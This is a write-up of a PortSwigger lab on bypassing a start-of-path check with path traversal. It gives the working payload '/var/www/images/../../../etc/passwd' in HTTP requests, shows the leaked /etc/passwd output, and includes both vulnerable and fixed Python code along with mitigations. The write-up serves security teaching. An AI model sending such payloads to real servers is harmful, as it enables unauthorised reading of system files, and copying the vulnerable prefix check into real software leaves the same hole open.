


# Lab 05: File Path Traversal, Validation of Start of Path

> **Topic**: Path Traversal
> **Lab Number**: 05
> **Platform**: PortSwigger Web Security Academy

## Category
Path Traversal — Start-of-Path Validation Bypass (Prefix Check with Subsequent Traversal)

## Vulnerability Summary
The application serves product images via `GET /image?filename=<value>` and validates that the supplied filename begins with the expected base directory `/var/www/images/`. However, the check is only a prefix match on the raw string — it does not verify that the resolved canonical path stays within that directory. By supplying the required prefix followed by `../` sequences, the prefix check passes while the traversal sequences escape the intended directory. The final resolved path is `/etc/passwd`, which the server reads and returns.

## Attack Methodology

### Step 1: Identify the Image Endpoint
```http
GET /image?filename=45.jpg HTTP/2
Host: 0a42005a04fb12d080f9b24800570095.web-security-academy.net
Cookie: session=ICZm4EAqwDEXX19mZXLDTHEKoU3ktOFg
```

### Step 2: Test Naive Payloads (Blocked)
Basic traversal and absolute path payloads are blocked. Testing reveals the filter requires the path to start with `/var/www/images/`:

```http
GET /image?filename=/var/www/images/etc/passwd HTTP/2
```
Response: `HTTP/2 400 Bad Request` — `"No such file"` (prefix present, but path doesn't exist).

### Step 3: Satisfy the Prefix Check, Then Traverse Out
The filter checks `startswith('/var/www/images/')` on the raw string. Supplying the required prefix and then appending `../` sequences satisfies the check while escaping the directory:

```
/var/www/images/../../../etc/passwd
                ↑
         prefix check passes here
                         ↑
                  traversal escapes to /etc/passwd
```

Resolution:
```
/var/www/images/../../../etc/passwd
→ /var/www/images/..  = /var/www
→ /var/www/..         = /var
→ /var/..             = /
→ /etc/passwd
```

### Step 4: Send the Payload

```http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
Host: 0a42005a04fb12d080f9b24800570095.web-security-academy.net
Cookie: session=ICZm4EAqwDEXX19mZXLDTHEKoU3ktOFg
```

### Step 5: Server Returns `/etc/passwd`

```http
HTTP/2 200 OK
Content-Type: image/jpeg
X-Frame-Options: SAMEORIGIN
Content-Length: 2316

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
...
```

200 OK with full `/etc/passwd` contents. Lab solved.





## Technical Root Cause

### Vulnerable Code (Pseudocode)
```python
import os

IMAGE_DIR = '/var/www/images'

def serve_image(request):
    filename = request.GET.get('filename', '')
    # Prefix check on raw string — does not resolve the path first
    if not filename.startswith(IMAGE_DIR + '/'):
        return HttpResponseForbidden('Access denied')
    with open(filename, 'rb') as f:   # opens the raw unresolved path
        return HttpResponse(f.read(), content_type='image/jpeg')
```

`filename.startswith('/var/www/images/')` passes for `/var/www/images/../../../etc/passwd`. The `open()` call then resolves the `../` sequences at the OS level, landing at `/etc/passwd`.

### Why `startswith` on a Raw Path Is Not a Security Check

```
Input:     /var/www/images/../../../etc/passwd
Check:     startswith('/var/www/images/') → True  ✅ passes
OS open:   resolves ../  →  /etc/passwd           ✅ traversal achieved
```

The check validates the string representation, not the filesystem reality. These are two different things whenever `..` is present.

### Secure Code
```python
import os

IMAGE_DIR = '/var/www/images'

def serve_image(request):
    filename = request.GET.get('filename', '')
    # Resolve canonical path first, then check boundary
    path = os.path.realpath(filename)
    if not path.startswith(IMAGE_DIR + os.sep):
        return HttpResponseForbidden('Access denied')
    with open(path, 'rb') as f:
        return HttpResponse(f.read(), content_type='image/jpeg')
```

`os.path.realpath('/var/www/images/../../../etc/passwd')` returns `/etc/passwd` before the check runs — the `startswith` then correctly rejects it.

## Impact
- **Prefix Check Completely Bypassed**: A `startswith` check on an unresolved path is trivially defeated by including the required prefix before any traversal sequences
- **Arbitrary File Read**: Any file readable by the web server process is accessible
- **No Authentication Required**: The endpoint is publicly accessible

**Severity: High**

## Proof of Concept

```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
Host: <lab-id>.web-security-academy.net
```

Response: `HTTP/2 200 OK` with full `/etc/passwd` contents.

## Key Takeaways
1. **`startswith` on a Raw Path Is Not a Boundary Check**: A string prefix check and a filesystem boundary check are fundamentally different. The string `/var/www/images/../../../etc/passwd` starts with `/var/www/images/` but resolves to `/etc/passwd`. Always resolve the canonical path with `os.path.realpath` before checking the boundary.
2. **Resolve First, Check Second**: The invariant is: `os.path.realpath(path).startswith(BASE + os.sep)`. Any check that runs before `realpath` can be bypassed with `..` sequences.
3. **The Pattern Appears in Many Languages**: This mistake is not Python-specific. Java's `File.getCanonicalPath()`, Go's `filepath.EvalSymlinks()`, and PHP's `realpath()` all serve the same purpose — resolve before checking. Skipping this step in any language produces the same vulnerability.
4. **Allowlisting Filenames Eliminates the Problem Entirely**: If the application only accepts `[a-zA-Z0-9_\-]+\.(jpg|png|...)`, no traversal sequence can be constructed regardless of prefix.

## Mitigation

### 1. Resolve Canonical Path + Boundary Check (Primary)
```python
path = os.path.realpath(os.path.join(IMAGE_DIR, filename))
if not path.startswith(IMAGE_DIR + os.sep):
    abort(403)
```

Note: use `os.path.join` rather than accepting a full absolute path from the user — this limits the attack surface further.

### 2. Allowlist Filename Format
```python
import re
if not re.fullmatch(r'[a-zA-Z0-9_\-]+\.(jpg|jpeg|png|gif|webp)', filename):
    abort(400)
```

### 3. Serve by ID, Not Filename
```python
image_path = db.get_image_path(product_id)
```

## References
- [PortSwigger — File Path Traversal, Validation of Start of Path](https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path)
- [PortSwigger — Path Traversal](https://portswigger.net/web-security/file-path-traversal)
- [OWASP — Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory](https://cwe.mitre.org/data/definitions/22.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Chromium

---

*Lab completed on: 2026-05-08*  
*Writeup by vibhxr*
